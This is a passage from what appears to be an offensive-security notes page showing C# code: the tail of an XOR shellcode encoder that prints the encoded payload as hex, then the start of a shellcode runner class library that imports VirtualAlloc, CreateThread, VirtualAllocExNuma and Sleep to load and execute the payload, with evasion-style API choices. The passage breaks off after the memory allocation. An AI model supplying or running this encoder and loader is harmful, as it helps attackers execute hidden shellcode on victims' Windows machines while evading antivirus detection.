```csharp
            {
                encoded[i] = (byte)(((uint)buf[i] ^ 0xAA) & 0xFF);
            }

            //Convert the byte array to a string
            StringBuilder hex = new StringBuilder(encoded.Length * 2);
            foreach (byte b in encoded)
            {
                // 0: hex format, x2 indicates 2 bytes
                hex.AppendFormat("0x{0:x2},", b);
            }

            Console.WriteLine("The payload is: " + hex.ToString());
        }
    }
}
```

<br>

### Copy XOR shellcode and place into 

```csharp
using System;
using System.Runtime.InteropServices;

namespace ClassLibrary1
{
    public class Class1
    {


        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocExNuma(IntPtr hProcess, IntPtr lpAddress, uint dwSize, UInt32 flAllocationType, UInt32 flProtect, UInt32 nndPreferred);

        [DllImport("kernel32.dll")]
        static extern IntPtr GetCurrentProcess();

        [DllImport("kernel32.dll")]
        static extern void Sleep(uint dwMilliseconds);

        public static void runner()
        {
            IntPtr mem = VirtualAllocExNuma(GetCurrentProcess(), IntPtr.Zero, 0x1000, 0x3000, 0x4, 0);
            if (mem == null)
            {
                return;
            }

```